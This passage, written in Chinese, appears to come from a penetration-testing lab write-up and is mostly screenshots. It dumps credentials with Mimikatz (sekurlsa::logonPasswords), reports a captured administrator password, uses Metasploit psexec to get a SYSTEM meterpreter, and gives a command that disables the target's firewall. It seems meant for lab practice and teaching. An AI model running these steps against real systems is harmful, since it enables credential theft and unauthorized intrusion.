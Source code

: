 ![image-20210514161652621](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514161652621.png)

![image-20210514161720990](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514161720990.png)

重新执行

```
kiwi_cmd sekurlsa::logonPasswords
```

![image-20210514161815953](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514161815953.png)

抓到administrator:dc123.com

使用smb/psexec模块，设置如下，注意监听ip为目标机内网ip

![image-20210514164914006](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514164914006.png)

执行成功弹回system权限的meterpreter

![image-20210514164852332](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514164852332.png)

如果执行失败，应该是防火墙的问题，需要执行如下指令关闭win7目标机上的防火墙

```
netsh firewall set opmode disable
```

![image-20210514165252702](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514165252702.png)

至此渗透结束